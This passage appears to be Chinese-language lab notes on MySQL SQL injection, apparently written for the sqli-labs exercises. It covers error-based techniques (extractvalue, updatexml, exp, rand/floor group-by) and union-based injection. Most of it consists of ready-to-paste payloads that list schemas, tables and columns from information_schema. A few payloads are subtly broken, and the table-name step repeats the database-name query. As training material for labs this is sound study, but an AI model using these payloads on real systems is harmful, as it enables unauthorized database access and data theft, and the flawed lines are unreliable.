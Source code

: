 ```
1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='库名' and table_name='表名')))--+

updatexml()
函数语法：updatexml(XML_document,XPath_string,new_vvalue)
利用原理：和extractvalue()原理一样。（换函数名）


exp()
函数语法：exp(int)
利用原理：该函数会返回e的x次方，但是mysql能记录的double数值范围有限，一旦超过范围就会报错。而我们在利用的时候会在注入语句前加上运算符'~'，将字符串经过处理后变成大整数从而使mysql报错。
爆库名
1' and exp(~(select * from(select group_concat(schema_name) from information_schema.schemata)))--+
爆表名
1' and exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema='库名')))--+
爆字段名
1' and exp(~(select * from(select group_concat(column_name) from information_schema.columns where table_schema='库名' and table_name='表名')))--+


rand()+group()+count()
利用原理：简单来说就是在group_by()语句执行的时候，一行一行的扫描原始表的x字段与虚拟表对比进行一次运算，如果虚拟表中不存在则会插入，但是在插入之前又会进行一次运算，这时运算后的拼接结果就会与之前的结果不同并且可能在虚拟表中之前存在，又因为主键不能重复所以就会报错。
爆库名
-1' union select 1,..,count(*),concat((select group_concat(schema_name) from information_schema.schemata),floor(rand(0)*2)) as x from information_schema.tables group by x--
爆表名
-1' union select 1,..,count(*),concat((select group_concat(table_name) from information_schema.tables where table_schema='库名'),floor(rand(0)*2)) as x from information_schema.tables group by x--+
字段名
-1' union select 1,..,count(*),concat((select group_concat(column_name) from information_schema.columns where table_schema='库名' and table_name='表名'),floor(rand(0)*2)) as x from information_schema.tables group by x--+

less5 、6、13、14
less-17: 对username做了防护,通过password进行报错注入
```

   

##### 联合查询注入(存在回显)

可以使用union的情况下的注入。

```
这种方式通过关键字union来拼接我们想要执行的sql语句，不过需要注意的是联合注入前后的字段数要保持一致，并且如果返回的数据只有一行的话，前面的sql语句返回结果必须为空。
联合注入的过程
 判断字段数
1' order by  数字 
1' order by 4  发现页面错误，说明没有4列
判断显示位
UNION的作用是将两个select查询结果合并
1' union select 1,2,3 --+
获取数据库名
-1' union select 1,group_concat( schema_name),3 from information_schema.schemata  --+
-1' union select 1,database()),3 from information_schema.schemata  --+
获取表名
-1' union select 1,group_concat( schema_name),3 from information_schema.schemata  --+
-1' union select 1,database()),3 from information_schema.schemata  --+
获取列名
-1' union select 1,group_concat( column_name),3 from information_schema.columns where table_name='users' --+ 
获取数据
```